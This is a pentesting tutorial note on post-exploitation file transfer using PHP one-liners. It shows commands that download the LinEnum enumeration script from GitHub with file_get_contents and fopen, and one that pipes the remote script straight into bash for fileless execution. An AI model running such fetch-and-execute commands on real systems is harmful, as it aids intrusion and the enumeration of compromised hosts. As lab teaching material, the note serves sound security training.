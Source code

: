 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

#### PHP Download with File_get_contents()

```shell-session
arenwald@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

```shell-session
arenwald@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

```shell-session
arenwald@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.